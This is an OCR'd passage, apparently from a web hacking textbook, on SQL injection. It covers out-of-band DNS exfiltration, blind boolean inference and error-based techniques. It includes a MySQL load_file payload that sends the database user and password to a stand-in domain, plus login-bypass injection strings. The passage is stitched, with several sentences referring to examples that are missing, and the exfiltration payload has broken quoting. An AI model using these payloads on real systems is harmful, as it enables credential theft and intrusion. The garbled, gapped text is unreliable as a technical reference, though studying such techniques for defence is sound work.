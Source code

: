 ```
actions have been successful.

One method for retrieving data that is often effective in this situation is to use an out-of-band channel. Having achieved the ability to execute arbitrary SQL statements within the database, it is often possible to leverage some of the database’s built-in functionality to create a network connection back to your own computer, over which you can transmit arbitrary data that you have gathered from the database.

The means of creating a suitable network connection are highly database- dependent. Different methods may or may not be available given the privilege level of the database user with which the application is accessing the database. Some of the most common and effective techniques for each type of database are described here.

If the MySQL database server is started with an empty secure_file_priv global system variable, which is the case by default for MySQL server 5.5.52 and below (and in the MariaDB fork), an attacker can exfiltrate data and then use the load_file function to create a request to a domain name, putting the exfiltrated data in the request.

Let’s say the attacker is able to execute the following SQL query in the target database:

```SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.',example.com\\test.txt'))```

This will cause the application to send a DNS request to the domain database_version.database_user.database_password.example.com, exposing sensitive data (database version, user name, and the user’s password) to the attacker.

## Conditional Responses

In the first case, the application logs you in as the admin user. In the second case, the login attempt fails, because the 1=2 condition is always false. You can leverage this control of the application’s behavior as a means of inferring the truth or falsehood of arbitrary conditions within the database itself. For example, using the ASCII and SUBSTRING functions described previously, you can test whether a specific character of a captured string has a specific value. For example, submitting this piece of input logs you in as the admin user, because the condition tested is true:

```admin’ AND ASCII(SUBSTRING(‘Admin’,1,1)) = 65--```

Submitting the following input, however, results in a failed login, because the condition tested is false:

```admin’ AND ASCII(SUBSTRING(‘Admin’,1,1)) = 66--``` 

By submitting a large number of such queries, cycling through the range of likely ASCII codes for each character until a hit occurs, you can extract the entire string, one byte at a time

## Inducing Conditional Errors

In some cases, you may be injecting into a query that has no noticeable effect on the application’s behavior, such as a logging mechanism. In other cases, you may be injecting a subquery or a batched query whose results are not processed by the application in any way. In this situation, you may struggle to find a way to cause a detectable difference in behavior that is contingent on a specified condition.

David Litchfield devised a technique that can be used to trigger a detectable difference in behavior in most circumstances. The core idea is to inject a query that induces a database error contingent on some specified condition. When a database error occurs, it is often externally detectable, either through an HTTP 500 response code or through some kind of error message or anomalous behavior (even if the error message itself does not disclose any useful information).

This causes the database to work through each row of table Y, evaluating condition C, and returning X in those cases where condition C is true. If condition C is never true, the expression X is never evaluated.

```
